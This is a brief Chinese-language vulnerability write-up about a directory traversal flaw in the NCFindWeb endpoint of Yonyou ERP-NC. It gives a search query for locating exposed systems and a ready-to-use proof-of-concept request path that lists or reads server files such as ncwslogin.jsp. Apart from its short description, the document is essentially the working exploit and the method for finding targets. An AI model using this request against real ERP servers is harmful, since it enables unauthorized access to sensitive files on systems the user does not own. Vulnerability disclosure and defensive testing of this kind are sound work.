

# 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

<a-checkbox checked>用友ERP-NC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-UFIDA-NC"</a-checkbox></br>

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```


查看 ncwslogin.jsp 文件


